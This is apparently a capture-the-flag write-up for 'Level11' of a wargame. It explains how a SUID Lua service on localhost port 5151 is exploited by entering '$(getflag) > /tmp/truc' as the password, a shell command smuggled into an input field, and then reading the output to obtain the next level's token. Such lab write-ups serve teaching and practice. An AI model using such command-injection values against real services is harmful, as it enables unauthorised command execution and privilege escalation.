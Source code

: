 # Level11

[FRENCH version](README.md)

## How to get the flag

The file present is a Lua file.

The file is having a SUID bit, so we might be able to exploit it.

There is a sha1 hash inside, but it is a false path; The decryption of its content only say: NotSoEasy (https://www.dcode.fr/sha1-hash)

We can create a code injection

First, we need to connect:

```
nc 127.0.0.1 5151
```

and when the password is asked, type : 

```
$(getflag) > /tmp/truc
```

then,

```
cat /tmp/truc
```

The file contains to token to connect to level12

## The flag

```

```

We can use this token to connect to flag11, and launch getflag to access level12
